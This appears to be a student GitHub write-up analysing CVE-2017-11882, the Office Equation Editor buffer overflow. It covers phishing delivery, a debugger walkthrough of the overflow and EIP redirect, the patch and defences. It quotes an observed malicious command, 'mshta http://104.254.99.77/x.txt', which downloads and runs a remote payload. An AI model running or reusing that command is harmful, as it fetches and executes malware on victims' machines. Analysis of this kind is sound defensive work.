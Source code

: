 # Microsoft Office Memory Corruption (CVE-2017-11882)  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Word%20Logo.png"></p> 

### Background
* __Age__: 17 year old vulnerability
* __What is it__: Run arbitrary code remotely without user interaction
* __Why it works__: Buffer overflow vulnerability inside equation editor (EQUEDT32.exe)
* __Who has been affected__: Users who installed
  * Microsoft Office 2007 Service Pack 3
  * Microsoft Office 2010 Service Pack 2 
  * Microsoft Office 2013 Service Pack 1 
  * Microsoft Office 2016
* __CVSS__:
  * The Common Vulnerability Scoring System
  * The score is 7.8 (high)
  * Really dangerous & should be fixed ASAP  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/CVSS.png"></p>
<p align="center"> Figure 1:  CVSS score [1] </p>  


### It always starts from the internet phishing...
1.	A spam __email__
2.	An __attachment__
3.	A __.doc file__ in Rich Text Format (RTF)
4.	__Microsoft Office__ will automatically open it  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Spam%20Email.png"></p>
<p align="center"> Figure 2:  Spam Email [2] </p>  


### Process Monitor
It is an [advanced monitoring tool for Windows](https://nvd.nist.gov/vuln-metrics/cvss).  
[It is used to monitor and display all the activities of file system in real-time.](https://en.wikipedia.org/wiki/Process_Monitor)  
* Unexpected operation named 'EQNEDT32.EXE'
* Command line has been called
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Process%20Monitor.png"></p>
<p align="center"> Figure 3:  Processes List [3] </p>  


### Burp Suite
It is a [web vulnerability scanner](https://portswigger.net/burp).  
[It is a set of tools used for penetration testing of web applications.](https://www.geeksforgeeks.org/what-is-burp-suite/g)  
* Unexpected 'GET' request 
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Burp%20Suite.png"></p>
<p align="center"> Figure 4:  Get request [3] </p>  


### Steps after you click the malicious word file:
#### 1. Microsoft Word file load up  
Here microsoft word will load up and read and compile the stuff inside. 
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%201.png"></p> 
  
#### 2. Execute Equation Editor  
Everyone used the equation editor before, to create the nice look equations.  
However, the equation editor is another individual program and Microsoft Word invokes its own process.  
In this case, everything inside the equation editor can skip all Microsoft protection bubbles.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%202.png"></p> 
  
#### 3. Hacker overflowed the font name registers inside Equation Editor  
Before overflow EAX save the length of font name which is 16 bytes (Hex:00000010).  
And the detail inside the font name registers is “TIMES NEW ROMAN”.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%203-1.png"></p> 
<p align="center"> Figure 5:  Debuger screenshot 1 [3] </p>  
After overflow, EAX pointed to 0012F350 and overflowed all other registers.  
On memory 004115CF, it loads whatever is inside the ebp register and pushes into the EAX register.  
The ebp register is a two way pointer and linking between word document and equation editor.  
The hacker changed the ebp register value to 48 bytes and then it was loaded to the EAX register.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%203-2.png"></p> 
<p align="center"> Figure 6:  Debuger screenshot 2 [3] </p>
  
#### 4. Overflow message  
Let now take a look at the 48 bytes detail inside the overflowed register beginning at address: 0012F350.  
From address 0012F350 to 0012F360 32 bytes are saving the hacker's mshta link and it can send a get request to this link and download the malicious software.  
Address: 0012F370 first 12 bytes are ‘20’ which are saving shell code inside but we cannot see it in detail through ASCii reader.   
The final 4 bytes are ‘12 0C 43 00’ which is the new EIP register address that the hacker wants us to jump to in the next step.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%204.png"></p> 
<p align="center"> Figure 7:  Debuger screenshot 3 [3] </p>  
  
#### 5. Redirect to new EIP address  
Here we can see at address: 00430C12 it call the Winexe program.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%205.png"></p> 
<p align="center"> Figure 8: Debuger screenshot 4 [3] </p>  
  
#### 6. Winexe execute   
From the code here we can see the Winexe execute at address 00430C12 and talk to the EAX register as it input.  
In this case, inside the Winexe it will run shell code first, then send a get request to the hacker's link.  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/step%206.png"></p> 
<p align="center"> Figure 9: Debuger screenshot 5 [3] </p>  
  
#### 7. Download hacker’s malicious software   
Finally after everything executes and runs correctly, it will download the malicious software and hide in some specific hard finding place to continuously steal your personal information.  


### [How to protect yourself from this exploit](https://support.microsoft.com/en-us/topic/how-to-disable-equation-editor-3-0-7e000f58-cbf4-e805-b4b1-fde0243c9a92)
The best way to protect your machine from this vulnerability is patching.
However, if you decide not to patch, a simple way to protect your machine is to disable EQUAEDT32.exe which is the equation editor that has the vulnerability.
The following commands can update your registry to disable EQUAEDT32.exe.
If you have an Office software running on a x64 machine, then you can use the second command, otherwise the first command is your choice. [4]  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Update%20Registry.png"></p> 
<p align="center"> Figure 10: Update registry [4] </p>  


### [Official Patch](https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html)
The official patching for CVE-2017-11882 was done in a Patch Tuesday update in November 2017. The patching was mainly done at function sub_0041160F.
The difference of the patched function(left hand side) and the original function(right hand side) is shown below.
The left top block shows that a boundary check is added. This line of code reset the counter register to 0x20 if it is larger than or equal to 0x21.
The left bottom block added a buffer truncation. This code makes sure only 0x20 bytes are copied and zero-terminate. [5]  
<p align="center"><img src="https://github.com/tingsama/hacking-p2/blob/main/Official%20Patch.png"></p> 
<p align="center"> Figure 11: Official Patch [5] </p>  


### How to avoid?
* Don’t skip patches.  
Simply __patch__ or __update__ the software can prevent an attack from happening. 
* Use a real-time anti-virus.  
Using a __anti-virus software__ can sometime be helpful.
* Filter your email.  
__Block__ the type of document that you don't use.  
__Do not click__ on the link or a document that looks suspicious. 
* Keep track of your websites. 
__Don’t enable online services__ or __create online accounts__ just because of promotion. 


#### References:  
[1]"NVD - CVE-2017-11882", Nvd.nist.gov, 2021. [Online]. Available: https://nvd.nist.gov/vuln/detail/CVE-2017-11882. [Accessed: 18- Mar- 2021].  
[2]Blogs.quickheal.com, 2021. [Online]. Available: https://blogs.quickheal.com/wp-content/uploads/2018/02/Fig3.png. [Accessed: 18- Mar- 2021].  
[3]C. Hardy, Stack Buffer Overflows - a primer on smashing the stack using CVE-2017-11882. 2021.  
[4]C. Hardy, CVE-2017-11882 - 3 ways to perform technical analysis, 1 easy way to protect. 2021.  
[5]L. Treiber, "Microsoft's Manual Binary Patch For CVE-2017-11882 Meets 0patch", Blog.0patch.com, 2021. [Online]. Available: https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html. [Accessed: 18- Mar- 2021].
